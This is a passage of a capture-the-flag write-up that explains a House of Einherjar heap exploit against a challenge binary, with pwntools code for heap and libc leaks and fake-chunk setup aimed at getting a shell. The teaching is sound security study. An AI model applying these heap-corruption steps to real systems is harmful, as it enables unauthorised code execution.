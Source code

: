 ```python
tok(c, b"D") # Read the heap pointer

heap_leak = unpack(io.recvline()[:-1].ljust(8, b"\x00"))
heap_base = heap_leak - 0x643
log.success(f"Heap base @ {hex(heap_base)}")

create(0x10, b"E") # Empty the tcache to ease further exploitation
```
{: .nolineno }


# Libc Leak
A libc leak is not necessary to do *House of Einherjar*, but for this challenge we need it to get the address of `__free_hook` and `system` so that we can get a shell.

One way to leak a libc address is through reading the contents of a free'd chunk located in the `unsorted bin`. To get a chunk into the unsorted bin we need its size to be greater than 0x408, and then free it. However, we should also allocate a *guard chunk* before we free the large chunk, because if there is no allocated chunks between our large chunk and the *top chunk*, the large chunk will consolidate with the *top chunk* instead of going into the `unsorted bin`.
```python
a = create(0x420, b"A")
b = create(0x10, b"guard chunk")
free(a) # Goes into unsorted bin

create(0x420, b"D") # Allocate the chunk again from the unsorted bin, now containing a libc pointer
tok(a, b"A")        # Read the pointer

libc_leak = unpack(io.recvline()[:-1].ljust(8, b"\x00"))
libc.address = libc_leak - 0x3ebc44
log.success(f"Libc base @ {hex(libc.address)}")

create(0x10, b"E") # Empty the tcache to ease further exploitation
```
{: .nolineno }


# Exploiting with House of Einherjar
Knowing that we have a null-byte overwrite and a heap leak, combined with a libc leak, we have all the prerequisites to perform the House of Einherjar attack and get a shell.

The attack starts off by creating a fake chunk on the heap. The size we set for this chunk can vary depending on how much memory is between this fake chunk and a large chunk we will null-byte overwrite into. In this case we will set this chunk to a size of 0x50. We choose this particular size because we use 8 bytes for our fake chunk's header, as well as 0x20 bytes for bypassing security checks. Then there is 8 bytes of additional data for our fake chunk for alignment, before a minimum sized chunk of size 0x20, which we will use to perform the null-byte overwrite. Lastly, we have 8 bytes belonging to the large chunk we null-byte overwrite into, which covers the `prev-size` field of this chunk.

```python
# Fake chunk will be 0x6f0 bytes from the heap base
fake_chunk_addr = heap_base + 0x6f0
fake_chunk = pack(0) + pack(0x51)
fake_chunk += pack(fake_chunk_addr) * 2 # Bypass unlink security checks

a = create(0x38, fake_chunk)
c = create(0x18, b"B"*0x18)      # Chunk to perform the null-byte overwrite from
d = create(0x4f8, b"C"*8)        # Chunk which we will overwrite "prev-inuse" bit for
e = create(0x18, b"guard chunk") # Prevent consolidation with top chunk
```
{: .nolineno }
